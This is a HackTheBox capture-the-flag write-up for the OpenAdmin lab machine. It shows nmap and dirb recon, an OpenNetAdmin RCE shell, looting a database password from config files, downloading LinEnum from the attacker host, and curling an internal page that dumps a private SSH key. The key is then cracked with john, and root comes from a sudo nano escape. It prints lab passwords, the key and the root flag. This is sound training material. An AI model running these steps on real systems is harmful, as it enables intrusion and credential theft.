 # HTB-OpenAdmin
My write up for the HackTheBox machine: OpenAdmin (10.10.10.171)

OpenAdmin was an easy and enajoyable machine to root.

The machine had a web application vulnerable to RCE, yielding a www-data shell.

The general process was:
Lazy system administrator escalation to user1 > CTF-like to user2 > nopasswd sudo privesc to root. 

## Lets get started!
As usual, I run nMap:
```console
root@kali:~# nmap -sV -T4 -sC 10.10.10.171
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-14 23:36 EST
Nmap scan report for 10.10.10.171
Host is up (0.0094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Found HTTP on port 80 and SSH on port 22.

Visiting the page, apache shows me Ubuntu landing, so I learn the host is an Ubuntu system. 
I then attempted login via SSH using common creds which did not work.

## Dirb

```console
$ dirb http://10.10.10.171/
```
Running Dirb results in finding /artwork and /music

Looking around on /artwork, I can't see anying interesting.

Looking around on /music, I see a login button that links to OpenNetAdmin version 18.1.1.

Googling opennetadmin 18.1.1 shows it's vulnrable to RCE, I also find the exploit code (located in RCE.sh).

## RCE
Running:

```console
root@kali: ~./RCE.sh http://10.10.10.171/ona/
```

Gives me a shell:

```console
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux openadmin 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```
## Looting for credentials 
Now I have a restricted shell - I need to escalate privileges.

Grep to loot for passwords in apache config files:
```console
$ grep -nr 'pass' . 
Found a couple passwords:
../../ona/www/local/config/database_settings.inc.php:13:        'db_passwd' => n1nj4W4rri0R!',
./include/adodb5/drivers/adodb-postgres64.inc.php:757:  //      $db->PConnect("host=host1 user=user1 password=secret port=4341");
./include/adodb5/datadict/datadict-oci8.inc.php:111:            $password = isset($options['PASSWORD']) ? $options['PASSWORD'] : 'tiger';
```

I then try to login using the above passwords to the two user accounts on the machine.

```console
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```
'n1nj4W4rri0R!' Worked for Jimmy!
```console
root@kali:~# ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
Last login: Fri Jan 17 02:27:34 2020 from 10.10.14.49
jimmy@openadmin:~$
```
## Lets get enumerating!

I used LinEnum by running the following on the victim:

```console
jimmy@openadmin:/var/tmp$ wget 10.10.**.**:9000/LinEnum.sh
--2020-01-17 03:52:23--  http://10.10.**.**:9000/LinEnum.sh
Connecting to 10.10.**.**:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’
LinEnum.sh          100%[===================>]  45.54K  --.-KB/s    in 0.01s   
2020-01-17 03:52:23 (3.66 MB/s) - ‘LinEnum.sh’ saved [46631/46631]

jimmy@openadmin:/var/tmp$ chmod +x LinEnum.sh
```

Looking through, I see apache and a curious file I wasn't able to see before at:

> /var/www/internal/main.php

The contents are:

```php
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
```
Hmm, I can't execute the .php file or access joanna's home directory - what can I do?

## cURL
I see on the LinEnum report it's listening at port 52846, so cURLing localhost:52846 dumps Joanna's SSH key!
```console
jimmy@openadmin:/var/www/internal$ curl -X POST http://127.0.0.1:52846/main.php -d "username=joanna"
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
## Password cracking!

Now it's time to ask John.
```console
root@kali:~/Documents/OpenadminWriteup# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsahash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (?)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2020-01-17 00:19) 0.2976g/s 4268Kp/s 4268Kc/s 4268KC/sa6_123..*7¡Vamos!
Session completed
```
John cracks the password: 

> bloodninjas

SSH into joanna's account:
```console
root@kali:~/Documents/OpenadminWriteup# ssh joanna@10.10.10.171 -i id_rsa
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
```

## Final PrivEsc

Check what Joanna can run without supplying a password:
```console
joanna@openadmin:~$ sudo -l
User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Joanna can use nano, so running:

```console 
joanna@openadmin:~$ sudo -u root nano /opt/priv
```

Gives me nano as root, CTRL-R + CTRL-X allows me to execute whatever I like with my new found privileges!

[In Nano]
```console
Command to execute: id 

uid=0(root) gid=0(root) groups=0(root)

Command to execute: cat /root/root.txt

2f907ed450b361b2c2bf4e8795d5b561
```

## Finished, thanks for reading!

